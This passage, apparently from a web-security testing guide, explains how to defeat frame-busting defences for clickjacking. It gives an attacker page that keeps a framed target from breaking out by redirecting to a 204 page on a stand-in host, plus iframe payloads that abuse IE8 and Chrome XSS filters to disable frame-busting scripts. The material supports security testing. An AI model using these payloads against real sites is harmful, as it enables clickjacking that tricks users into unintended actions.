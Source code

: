 ```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

_Attacker's Page_

```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter 
This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request's parameters.

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Attacker View:

```html
<iframe src=”http://target site/?param=<script>if”>
```

### Chrome 4.0 XSSAuditor filter

It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.

